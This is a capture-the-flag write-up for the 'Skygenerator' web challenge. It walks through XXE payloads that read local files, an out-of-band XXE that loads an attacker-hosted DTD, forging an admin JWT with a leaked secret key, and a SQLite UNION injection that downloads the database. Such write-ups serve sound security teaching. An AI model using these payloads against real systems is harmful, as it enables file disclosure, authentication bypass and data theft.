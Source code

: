 # Skygenerator
> Want the flag? Better try harder!
Note: The flag is located into the flag table
Hint: PHP source code and XML don't go along very well
Author: @lpezzolla

Link: https://challs.m0lecon.it:8000/

Points: 153

Solves: 32

Tags: web, xxe, CDATA, SQLite, PHP, Parameterized Query

## Initial Steps
We are given a simple website where we can create an account, login and upload an xml file which contains tags for stars which have a text and a position. Thus my first instinct was to do try XXE injection.

## Simple XXE to read local files
I intercepted the XML upload request with Burp and sent it to Repeater, so that I can simply modify and repeat it. 


We try a simple XXE to leak a local file:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<sky>
    <star x="0" y="200">&test;</star>
</sky>
```

It works! We get back a sky image which contains the file content as text. We can not only leak files but also list directories! I looked around and found this interesting one:
> /var/www/html/skygenerator/public
![](images/web_root.png)

Some files look very interesting, e.g. *admin_dashboard.php*. There is also a SQLite database *skygenerator.db* in another folder. Unfortunatly we get an error when trying to leak any of these files. Not even [Out-of-band XXE using a DTD](https://dzone.com/articles/out-of-band-xml-external-entity-oob-xxe) hosted on my server worked. Luckily there was the hint.

## Advanced XXE to read local php files
We know that trying to read php files results in an error. This makes sense as the raw php code would just be inserted inside the XML messing with its syntax, not allowing a valid image to be generated.

Thus we try to wrap it in a CDATA block

From https://en.wikipedia.org/wiki/CDATA#CDATA_sections_in_XML:
```
A CDATA section is a piece of element content that is marked up to be interpreted literally, as textual data, not as marked up content. 
```

However simply doing this doesn't work, as then the entity refernce *&test;*would be treated as plain text and not replaced:
```xml
<star x="0" y="200"><![CDATA[&test;]]></star>
```

But we can use some [DTD Magic](https://dzone.com/articles/xml-external-entity-xxe-limitations) to wrap the php code after it has been inserted. 
For this we submit the following XML:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE star [
  <!ENTITY % dtd SYSTEM
  "http://EXAMPLE/evil.dtd">
  %dtd;
  %all;
]>
<sky>
    <star x="0" y="0">&fileContents;</star>
</sky>
```

In addition we host the following *evil.dtd* file on our public server EXAMPLE:
```xml
<!ENTITY % file SYSTEM "file:///var/www/html/skygenerator/public/admin_dashboard.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

Holy shit that works! Here are the interesing files:

> admin_dashboard.php (top-half)
![](images/admin_dashboard1.png)

> admin_dashboard.php (bottom-half) (received by setting the stars y-coordinate to -720)
![](images/admin_dashboard2.png)

> config.php
![](images/config.png)

The admin dashboard looks very interesting, since it allows us access to the database. However we can see in the source code that our role has to be "admin". This is where the *config.php* helps us.

## Fake cookie to access admin panel

From *config.php* we can extract the secret key, used to sign JWT session cookies:
```
Vb8lckQX8LFPq45Exq5fy2TniLUplKGZXO2
```

We use https://jwt.io/, paste our cookie and changes the role string to "admin" with length 5. Then we replace our cookie. Now we can access /admin_dashboard!

## SQLite Injection
Looking at the source code of *admin_dashboard.php* I spotted a vulnerability in the parameterized query. $key is insterted directly into query instead of as a parameter! 

Since I never did this sort of injection before and it was not straightforward, I proceeded to build a local setup replicating the functionality of the admin dashboard, to be able to debug the queries better. There were several character that were not possible in the injection, due to how PHP handles them. For each I had to find a replacement:
- " " -> /**/
- "." -> CHAR(46)
- "+" -> ||

Finally I came up with this payload. I inserted it directly into the page so I can simply download the zip file, instead of getting it in raw form in Burp.

Inserted in /admin_dashboard:
```html
<input type="number" class="form-control" name="user_id" id="user_id" required="" value="-1">

<input name="2>1/**/UNION/**/SELECT/**/'/var/www/html/skygenerator/data/skygenerator'||CHAR(46)||'db'--" value="1337">
```
The name of the second input tag will map to $key.

Thus the local query would look like this:
```sql
SELECT filename FROM skies WHERE user_id=:user_id AND 2>1/**/UNION/**/SELECT/**/'/var/www/html/skygenerator/data/skygenerator'||CHAR(46)||'db'--
```
The idea is that the first SELECT does not return any result, because it set user_id=-1. The second SELECT will return the path to the SQLite database, which the server will then zip and send to us.

## Extract flag from leaked database
Using *sqlite3* I can browse the database and find the flag.

```bash
$: sqlite3 skygenerator.db
SQLite version 3.29.0 2019-07-10 17:32:03
Enter ".help" for usage hints.
sqlite> .tables
flag   skies  users
sqlite> SELECT * FROM flag;
ptm{XSS_4r3_b4d_sh1t_YN8aSUf8m0E8}
```

Finally we have the flag in this "warmup" challenge:
```
ptm{XSS_4r3_b4d_sh1t_YN8aSUf8m0E8}
```

## Slighly different solution
Check out [PinkDraconian's video](https://www.youtube.com/watch?v=dznJXW_w5Y8). Instead of downloading the database he used SQL's SUBSTR function and a script to extract the flag from the flag table.
